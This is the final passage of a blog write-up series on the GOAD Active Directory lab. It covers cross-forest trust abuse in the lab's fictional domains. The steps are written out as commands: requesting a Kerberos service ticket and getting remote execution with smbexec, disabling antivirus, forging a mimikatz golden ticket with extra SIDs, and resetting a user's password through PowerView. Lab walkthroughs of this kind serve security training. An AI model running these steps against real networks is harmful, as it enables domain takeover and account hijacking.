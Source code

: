 - Ask a service ticket for kingslanding cifs

```
export KRB5CCNAME=/workspace/trusts/external/trustdragon.ccache
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustdragon@sevenkingdoms.local -debug
 ```

- And enjoy (secretsdump will work too)

```
export KRB5CCNAME=/workspace/trusts/external/trustdragon@sevenkingdoms.local.ccache
smbexec.py -k -no-pass trustdragon@kingslanding.sevenkingdoms.local -debug
```

## Exploit acl with external trust golden ticket

- Ok now imagine we want to exploit this acl from essos:

> By now i didn’t found a nice way to do this from linux, but from windows it is pretty easy

- Connect as administrator on meereen, disable the antivrius to be able to use mimikatz and powerview
- Create the golden ticket with mimikatz matching the group kingsguard (RID 1130)
```
mimikatz # kerberos::golden /user:guard /domain:essos.local /sid:S-1-5-21-2203133648-1386395927-1390703624 /krbtgt:e58cf01ba6cc645da9f7ab1f28fc3934 /sids:S-1-5-21-1409754491-4246775990-3914137275-1130 /ptt
```

- And now use powerview to change stannis password
```
Import-Module .\powerview.ps1<br>$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force<br>Set-DomainUserPassword -Identity stannis.baratheon -AccountPassword $SecPassword -Domain sevenkingdoms.local
```

- And it work !

- And if we look at the created tickets with klist:
    - Server: krbtgt/essos.local @ essos.local (golden ticket)
    - Server: krbtgt/SEVENKINGDOMS.LOCAL @ ESSOS.LOCAL (kdc: meereen) (tgt inter realm)
    - Server: ldap/kingslanding.sevenkingdoms.local @ SEVENKINGDOMS.LOCAL (kdc: kingslanding)
    - Server: ldap/kingslanding.sevenkingdoms.local/sevenkingdoms.local @ SEVENKINGDOMS.LOCAL (kdc: kingslanding)

# The end - Winter is coming

- The GOAD’s writeups series end with this part. If you read all you are very brave and i hope you enjoyed it despite my terrible english ^^
- I also hope you gived a try to the lab and all is working fine on your computer.
- For the next year i have other evolution of the lab, blog post ideas and projects in mind, you will see it on twitter (@M4yFly) when something new will come.
- Again thank you to all the security researchers and opensource contributors for all the work and share they do !
